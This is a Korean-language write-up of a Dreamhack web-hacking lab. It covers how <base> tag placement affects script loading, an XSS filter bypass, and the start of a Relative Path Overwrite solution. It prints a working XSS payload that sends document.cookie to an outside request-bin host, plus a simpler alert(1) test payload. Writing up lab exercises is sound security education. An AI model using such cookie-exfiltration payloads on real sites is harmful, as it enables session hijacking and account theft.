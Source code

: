왜냐하면 ```<base>``` 태그의 위치에 따라 경로 변경이 적용되는게 다르기 때문이다.

head 태그는 맨 위에 있기 때문에 head 태그 안에서 그리고 head 안에서도 맨 위에서 사용되어야 전체적인 경로가 변경되는 것이다. 

**중간에서 사용되면 base 태그보다 위에서 불려온 스크립트나 스타일시트에서 사용된 경로의 base url 경로는 변경되지 않고 base 태그보다 아래에서 불려오는 것부터만 적용된다.**

그래서 base 태그를 이용해서 했을 때 ```<script src=filter.js></script>``` 코드가 base 태그보다 위에 있었기 때문에 적용되지 않아서 CSP Bypass Advanced 문제처럼 풀리지 않았던 것이다.

<br><br>

결국 강의를 보니.. filter.js가 로드되는 걸 우회해야 한다고 한다. 로드 되지 않으면 필터링이 안되기 때문이다.

그래서 base 태그로 우회한 다음 스크립트 태그를 이용할 수 있으므로 아래와 같이 하니 요청이 보내졌다.

payload
: ```?page=vuln&param=<base href="test">;</script><script>location.href="https://xgezyqb.request.dreamhack.games?cookie="%2bdocument.cookie</script>```

<br>

공격 방식은 강의에서는 좀 달랐다. DOM XSS라서 script 태그를 사용할 수 없다고 한다. 문제 풀이 방식에 두 가지가 있는 것 같다. 

위의 풀이는 **결국엔 입력 값과 필터링 단어들을 비교하기 전에 ```</script>``` 태그를 사용함으로써 vuln.php에 있는 필터링 코드를 우회할 수 있다.**

따라서 입력을 ```?page=vuln&param=</script><script>alert(1)</script>```라고 해주면 alert가 실행된다.

<br>

위의 방식은 문제에서 제대로 처리를 안해준 것 같다.  

아래는 RPO 취약점을 이용한 풀이로 강의에 있는 내용이다. 이렇게 풀어야 한다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution 2
<hr style="border-top: 1px solid;"><br>

Link
: <a href="https://dreamhack.io/lecture/courses/335" target="_blank">Exercise: Relative Path Overwrite</a>

<br>

RPO를 이용해서 하면은 ```filter.js```는 상대경로이다. 

따라서 현재 경로가 만약 ```http:host:port/```에서 ```http:host:port/?page=vuln```을 하면 현재 경로가 최상위 경로이므로 ```http:host:port/filter.js```를 탐색하여 로드한다.

하지만 만약 ```http:host:port/index.php/?page=vuln```이라면? 확인해보면 알 수 있다.

<br>

+ ```http://host1.dreamhack.games:17680/?page=vuln&param=hello```

![image](https://user-images.githubusercontent.com/52172169/164951087-de87bf2f-1ae8-43b6-9c81-543b8970321c.png)

<br>
